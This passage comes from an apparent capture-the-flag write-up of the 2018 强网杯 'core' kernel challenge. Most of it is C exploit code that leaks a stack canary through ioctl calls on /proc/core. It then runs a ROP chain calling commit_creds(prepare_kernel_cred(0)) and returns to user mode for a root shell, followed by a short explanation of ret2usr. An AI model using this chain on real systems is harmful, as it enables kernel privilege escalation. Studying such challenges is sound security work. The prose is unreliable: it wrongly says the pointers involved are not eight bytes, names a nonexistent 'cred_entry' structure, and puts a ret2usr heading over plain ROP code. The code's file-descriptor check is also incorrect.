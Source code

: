```c
	size_t rop[0x100];
	char user_buf[0x40] = {0};
    int i;

	int fd = open("/proc/core", O_RDWR);
    if (!fd) {
        puts("[-] OPEN /proc/core ERROR.");
        exit(0);
    }
	ioctl(fd, CORE_OFF, 0x40);
    ioctl(fd, CORE_READ, user_buf);  //leak canary
	size_t canary = ((size_t *)user_buf)[0];
    printf("[+] Find canary: 0x%llx\n", canary);

    for(i = 0; i < 10; i++)
    {
        rop[i] = canary;
    }
	rop[i++] = pop_rdi;
	rop[i++] = 0;
	rop[i++] = prepare_kernel_cred_addr;
	rop[i++] = pop_rdx;
	rop[i++] = commit_creds_addr;
	rop[i++] = mov_rdi;
	rop[i++] = swapgs;
	rop[i++] = 0;
	rop[i++] = iretq;
    rop[i++] = (size_t)GetShell;
    rop[i++] = user_cs;
    rop[i++] = user_rflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;
	
	write(fd, rop, sizeof(rop));
	ioctl(fd, CORE_COPY, 0xffffffffffff0000|0x100);
	return 0;
}
```

# ret2usr - 2018 强网杯 - core

The ret2usr attack leverages the fact that **userspace processes cannot access kernel space, but kernel space can access user space** to direct kernel code or data streams to user controls and execute user space code with the `ring 0` privilege to complete operations such as privilege escalation.

This vulnerability is consistent with the ROP, the difference is that here we construct `commit_creds(prepare_kernel_cred(0))` in user space through the function pointer for privilege escalation. Although the function is in kernel space, at this point we are in ring0 privilege and can execute normally. 

It is worth noting that here the function pointer can be constructed based on the function prototypes of **prepare_kernel_cred()** and **commit_creds()**. Although the return value of **prepare_kernel_cred()** and the argument of **commit_creds()** is a pointer to a `cred_entry` structure, its essence is still a pointer. So the return value and argument are essentially a memory address, and neither the char pointer nor the **cred_entry** structure pointer is eight bytes.

